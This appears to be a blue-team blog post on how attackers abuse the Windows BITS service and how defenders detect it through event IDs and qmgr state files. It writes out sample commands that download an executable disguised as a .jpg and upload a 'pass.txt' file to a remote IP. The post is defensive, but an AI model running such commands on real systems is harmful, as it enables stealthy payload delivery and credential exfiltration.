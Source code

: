 ```yaml
---
layout: post
title: BITS Windows
date: 2025-10-07 21:45:00 +0300
categories: [Blue Team, Windows Service, Background Intelligent Transfer Service] # Add your new categories here
tags: [BITS, LOTL, Windows Service, DFIR]
image: "photos/BITS/bg.jpg"
---
```


The Quiet Windows Service That Became a Cyber Weapon

In the heart of Windows lives a small, polite service called **BITS — Background Intelligent Transfer Service**. It was designed to quietly move files (updates, assets) in the background and resume transfers after reboots or network outages. But what makes a helpful system feature so interesting to defenders — and attractive to attackers — is exactly what makes it invisible: it’s trusted, it runs as a Windows service, and it behaves politely on the network.

What is BITS ?

The “Background Intelligent Transfer Service” (BITS) is a technology developed by
Microsoft in order to manage file uploads and downloads, to and from HTTP servers and
SMB shares, in a more controlled and load balanced way. If the user starting the
download were to log out the computer, or if a network connection is lost, BITS will
resume the download automatically; the capability to survive reboots makes it an ideal
tool for attackers to drop malicious files into an impacted Windows workstation,
especially considering that Microsoft boxes do not have tools like “wget” or “curl”
installed by default, and that web browsers (especially those in Corporate environments)
may have filters and plugins preventing the download of bad files.

![](photos/BITS/svchost.png)

## From maintenance tool to attacker toolkit

BITS was built to be resilient and unobtrusive. Attackers realized they could *live off the land* — using built-in, legitimate tools to bypass defenses — by letting BITS download or upload malicious files. Because BITS runs under `svchost.exe` and uses standard Windows mechanisms, it often slips past firewalls and detection rules that focus on non-native tools.

How to Use it ? 

`to Download file` 

```jsx
bitsadmin /transfer ALPHA /download /priority high http://www.abcef.it/file.exe c:\test1.jpg
```

if files are downloaded via BITS, the “Content-Type” value in the log will vary, according to the content type of the downloaded resource. 

The transfer of 

1. a binary file will have an “Application Octet-Stream” value for
binary file transfers
2. a text file, or Javascript code, will have a “text/html” content type

this can be helpful while monitoring on SIEM, but unforentialty we can’t see the content if the company doesn’t apply  SSL/TLS interception.

`to Add file` 

```jsx
Bitsadmin /addfile ALPHA http://downloadsrv/file2.exe c:\test2.jpg
```

`to Upload file`

```jsx
Start-BitsTransfer –TransferType Upload –Source “C:\Temp\pass.txt” –Destination http://192.168.11.22/pass.txt
```

once it ran to transfer files there is a sequences of event id generated in the event log under the path   `Microsoft_Windows_Bits_Client_Operational.evtx` such as 

1. Event ID 3: information about the job creation
2. Event ID 59: information about the start of the service: "BytesTransferred" value is zero;
3. Event ID 60: status of the job
4. Event ID 4: completion of the job. "BytesTransferred" value is the size of the downloaded file.
This sequence of event IDs (3, 59, 60 and 4) will be the same even in the case of a file
upload
5. In the case that the transfer is interrupted during the download, an Event ID 61 (instead of
Event ID 60) will be recorded

How can i monitor my transferring ?

In order to check the BITS jobs that are still to be completed, the command lines
`“Bitsadmin /monitor”` or the Powershell `“Get-BitsTransfer | select*` can be used

i can find more on Hard Disk

1. the so-called "Queue Manager artefacts", also called “State Files”. These files are
named “qmgr0.dat” and “qmgr1.dat” and are located at path
“C:\ProgramData\Microsoft\Network\Downloader”

Special thanks for SANS